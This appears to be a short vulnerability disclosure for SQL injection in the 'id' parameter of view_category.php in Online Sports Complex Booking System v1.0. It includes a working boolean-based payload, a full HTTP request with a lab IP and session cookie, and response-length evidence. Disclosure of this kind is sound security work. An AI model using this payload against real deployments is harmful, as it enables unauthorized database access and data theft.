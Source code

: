 # Online Sports Complex Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15236/online-sports-complex-booking-system-phpmysql-free-source-code.html

Vulnerability File: /scbs/admin/categories/view_category.php?id=

Vulnerability location: /scbs/admin/categories/view_category.php?id=, id

Current database name: scbs_db,length is 7

[+] Payload: /scbs/admin/categories/view_category.php?id=2%27%20and%20length(database())%20=7%20--+

```sql
GET /scbs/admin/categories/view_category.php?id=2%27%20and%20length(database())%20=7%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=gp584rjk4ugbjakmto03cu7pco
Connection: close

// Leak place ---> id
```

When length (database ()) = 6, Content-Length: 873
![image](https://user-images.githubusercontent.com/54017627/165214816-bc585a48-329c-4c58-942c-7fe008932407.png)

![image](https://user-images.githubusercontent.com/54017627/165214739-bacc0fc3-f191-4f8a-9673-aff0155422f5.png)

When length (database ()) = 7, Content-Length: 775
![image](https://user-images.githubusercontent.com/54017627/165214791-3fc98669-5b38-4240-8033-78b2cf94446a.png)

![image](https://user-images.githubusercontent.com/54017627/165214689-4cb5a17b-aa17-4f4c-a837-217973dcb13f.png)
